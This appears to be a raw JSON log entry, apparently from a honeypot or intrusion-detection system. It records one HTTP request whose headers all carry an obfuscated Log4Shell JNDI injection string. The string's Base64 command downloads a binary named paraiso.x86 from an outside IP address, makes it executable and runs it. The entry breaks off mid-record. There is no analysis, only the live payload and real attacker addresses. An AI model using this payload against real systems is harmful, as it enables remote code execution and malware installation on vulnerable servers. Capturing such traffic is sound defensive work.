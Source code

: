 ````json
{"time":"2024-02-03T00:11:36.009580","headers":{"accept":"application/json, text/plain, */*","x-api-version":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","user-agent":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","referer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cookie":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","authentication":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","bearer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cf-connecting_ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-forwarded-for":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-real-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-client-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","originating-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","host":"54.67.87.80:8080","connection":"close"},"sip":"95.214.53.99","dip":"54.67.87.80","method":"GET","url":"/","data":null,"useragent":["t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')"],"version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":7
````